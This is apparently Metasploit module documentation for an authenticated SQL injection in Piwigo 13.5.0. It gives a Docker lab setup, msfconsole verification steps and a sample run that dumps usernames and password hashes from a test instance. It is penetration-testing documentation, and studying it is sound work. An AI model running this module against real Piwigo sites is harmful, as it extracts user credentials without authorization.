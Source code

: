 ## Vulnerable Application

This module exploits an authenticated SQL injection vulnerability
caused by improper handling of user-supplied input in Piwigo (Photo Gallery).
The vulnerability can be found in Piwigo version 13.5.0.
By exploiting this vulnerability, an attacker can execute arbitrary SQL queries,
potentially gaining unauthorized access to sensitive information or manipulating the database.
For a detailed technical analysis of this vulnerability,
please refer to the [https://github.com/advisories/GHSA-4xvf-3477-vq63](https://github.com/advisories/GHSA-4xvf-3477-vq63).

## Options

To successfully perform a SQL injection attack, you need to configure the module's `RHOSTS`
option with a valid Piwigo endpoint (`TARGETURI`).
Additionally, set the `USERNAME` option to specify the name of a privileged user and provide the corresponding `PASSWORD`.

## Testing

To setup a test environment, the following steps can be performed.

1. Install docker [https://docker.io](docker.io)
2. Inside any directory create the dockerfile bellow:

```yaml
FROM alpine:3.10.3
LABEL maintainer="Moritz Heiber <hello@heiber.im>"

ENV PIWIGO_VERSION="13.5.0"
RUN set -x && apk --no-cache add curl php7 php7-gd php7-mysqli php7-json php7-session php7-exif && \
curl "http://piwigo.org/download/dlcounter.php?code=${PIWIGO_VERSION}" --output piwigo.zip && \
adduser -h /piwigo -DS piwigo && unzip piwigo.zip -d /piwigo && \
install -d -o piwigo /piwigo/piwigo/galleries /piwigo/piwigo/upload && \
chown -R piwigo /piwigo/piwigo/local && \
apk --no-cache del curl && rm piwigo.zip

WORKDIR /piwigo
USER piwigo

CMD ["php","-S","0.0.0.0:8000","-t","piwigo"]
```

3. Install `docker-compose` and create a file called `docker-compose.yml` with the following content:

```yaml
  version: '3'
        services:
          piwigo:
            container_name: piwigo
            image: piwigo-docker
            networks:
              - piwigo
            ports:
              - "8000:8000"
          mysql:
            container_name: piwigo_mysql
            image: mysql:8.0.18
            command: ["--default-authentication-plugin=mysql_native_password"]
            networks:
              - piwigo
            environment:
              MYSQL_USER: "piwigo"
              MYSQL_PASSWORD: "piwigo"
              MYSQL_DATABASE: "piwigo"
              MYSQL_RANDOM_ROOT_PASSWORD: "true"

        networks:
          piwigo:
```

4. Execute the commands `docker build -t piwigo-docker .` and `docker-compose up -d`
   inside the folder that contains the `docker-compose.yml` and `Dockerfile` files.
5. Then Piwigo's installation page should be available at http://localhost:8000
6. Setup the database with `mysql` as url of database, **piwigo** as `username` **piwigo** as `password`
7. Login as priviledge user and create any photo album and upload any photo to that album.

## Verification Steps

1. Start `msfconsole`
2. Use the `auxiliary/gather/piwigo_cve_2023_26876 module`.
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. Set the `TARGETURI` option to the target HTTP path
5. Set the `USERNAME` option to piwigo.
6. Set the `PASSWORD` option to piwigo.
7. `run`

## Scenarios

### Piwigo SQL Injection

```
msf6 auxiliary(gather/piwigo_cve_2023_26876) > show options

Module options (auxiliary/gather/piwigo_cve_2023_26876):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   piwigo           yes       The password for authenticating to Piwigo
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to Piwigo
   USERNAME   piwigo           yes       The username for authenticating to Piwigo
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/piwigo_cve_2023_26876) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running Piwigo with version 13.5.0
[*] Try to log in..
[+] Successfully logged into Piwigo
[+] Target is vulnerable
[*] Dump of usernames and hashes:

Piwigo Users
============

 username  hash
 --------  ----
 admin     $P$GAO2fLIGJtRyQCNf96KbQ9PeiDAuii/
 guest
 piwigo    $P$GNrJljahQW2NXTXhWNZdalgGiao/T1/
 test1     $P$G2HB46S.PMs5gExCAfXCMUW2p1HwA60
 user      $P$GE/wX1wqKM0WKkAGXvhYihdPhgl5Mw/

[*] Auxiliary module execution completed
msf6 auxiliary(gather/piwigo_cve_2023_26876) >
```
